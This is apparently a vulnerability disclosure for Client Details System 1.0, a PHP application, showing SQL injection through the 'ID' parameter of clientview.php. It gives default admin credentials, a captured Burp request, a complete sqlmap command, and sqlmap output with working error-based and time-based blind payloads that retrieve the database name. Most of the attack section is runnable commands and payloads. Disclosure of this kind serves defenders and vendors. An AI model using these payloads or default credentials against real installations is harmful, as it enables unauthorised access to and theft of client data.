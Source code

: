 # Client_Details_System-SQL_Injection_6
+ **Exploit Title:** Client_Details_System-SQL_Injection_6
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'ID' in "/clientdetails/admin/clientview.php?ID=2". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Client Details: "http://localhost/clientdetails/admin/clientview.php"
+ Then select the any client.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/clientview.php?ID=2 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/clientview.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'ID' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p ID --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: ID (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: ID=2' AND EXTRACTVALUE(9984,CONCAT(0x5c,0x7170706b71,(SELECT (ELT(9984=9984,1))),0x71766b6b71))-- TRvU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ID=2' AND (SELECT 4084 FROM (SELECT(SLEEP(5)))ERbG)-- puQq
---
[18:03:35] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[18:03:35] [INFO] fetching current database
[18:03:35] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![6](https://github.com/h4md153v63n/CVEs/assets/5091265/e4e81845-617f-4d1b-9c1d-b4bae4f5fc73)
